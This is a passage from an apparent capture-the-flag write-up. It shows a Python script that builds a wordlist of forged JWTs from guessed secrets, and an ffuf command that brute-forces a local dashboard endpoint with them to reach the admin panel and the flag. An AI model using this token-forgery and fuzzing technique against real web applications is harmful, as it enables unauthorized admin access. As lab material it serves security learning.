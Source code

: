 ```python3
if len(sys.argv) != 2:
    print("Usage: python generate_jwt_wordlist.py <md5_wordlist>")
    sys.exit(1)

# Open the MD5 wordlist (hashes)
wordlist_file = sys.argv[1]
jwt_wordlist = "jwt_wordlist.txt"

# Open the new JWT wordlist file for writing
with open(jwt_wordlist, "w") as jwt_file:
    with open(wordlist_file, "r") as hashes_file:
        for secret in hashes_file:
            secret = secret.strip()  # Remove any trailing newlines
            jwt_token = generate_jwt(secret)
            # Write the generated JWT to the new wordlist
            jwt_file.write(jwt_token + "\n")

print(f"JWT wordlist generated and saved as '{jwt_wordlist}'.")
```
<br>

##### Part 3: Fuzz for the valid JWT using FFUF. 
Notice were fuzzing the dashbaord endpoint here because it will just redirect us to the admin panel if admin==true.
```bash
ffuf -w jwt_wordlist.txt -u http://127.0.0.1:1337/dashboard -H "Cookie: connect.sid=s%3AWUS4k4gfRYeSPmCM82JmtZJ-MpKfaCMl.O2yTw8lEsoyTVqQlgtPhqSsYW%2FFZvWz3nJvSLMg8FJE; session=FUZZ" -mc all -fs 29
```
<br>
<p align="center">
  <img src="https://i.imgflip.com/977kih.jpg" title="Fuzzing the valid JWT" width="100%" />
</p>
<br>

With that JWT, I was able to login as an admin and obtain the flag:
<p align="center">
  <img src="https://i.imgflip.com/977koz.jpg" title="The Flag!!!" width="100%" />
</p>












